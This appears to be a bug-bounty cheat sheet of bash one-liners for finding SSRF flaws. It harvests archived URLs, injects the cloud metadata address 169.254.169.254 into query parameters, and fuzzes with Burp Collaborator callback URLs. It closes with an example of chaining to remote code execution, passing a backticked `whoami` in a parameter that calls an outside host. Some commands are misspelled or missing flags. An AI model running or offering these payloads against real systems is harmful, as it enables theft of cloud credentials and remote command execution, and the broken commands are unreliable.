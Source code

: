 
## Accessing SSRF metadata with automation by just using curl and bash

### 1

**Command for getting URLs**
```bash
waybackurl target.com | tee wayback.txt
gau -subs target.com | tee gau-urls.txt

cat wayback.txt gau-urls.txt | sort -u |anew | httpx -silent | qsreplace 'http://169.254.169.254/latest/meta-data/hostname' | xargs -I % -P 25 sh -c 'curl -ks "%" 2>&1 | grep "compute.internal" && echo "SSRF VULN! %"'
```
### 2
**Find Blind SSRF with automation by just using curl and bash**
```bash
waybaclurl target.com | tee wayback.txt
gau -subs target.com | tee gau-urls.txt

cat wayback.txt gau-urls.txt | sort -u | anew | httpx -silent | tee all-urls.txt
cat all-urls.txt | gf ssrf | tee ssrf.txt

# Finally we will use ffuf and burp collaboraotr client
cat ssrf.txt | qsreplace "YOUR BURP URL" | tee ssrf-fuzz.txt
ffuf -c ssrf-fuzz.txt -u FUZZ

```
### 3
```bash
#Gather URLs
gau -subs example.com 
waybackurls example.com
# Else You can use like this;
gau -subs example.com; subfinder -d example.com -silent |waybackurls | gf ssrf | sort -u | tee ssrf.txt

# Now we use fuzz the url for blind ssrf.
cat ssrf.txt | qsreplace 'http://YOUR.burpcolaborator.net' | tee ssrf-fuzz.txt
ffuf -c -w ssrf-fuzz.txt -u FUZZ -t 200
#Now we will check whetherwe get any http request hit on our burp collaborator server.
```
**If you get any http ping back on burpcolaborator then try to chain with RCE**
*http:/devtest.exampl.com/import/picture?next_image=http://4v0er435p7gx4lx6432c7bdylprff4.burpcollaborator.net?`whoami`*


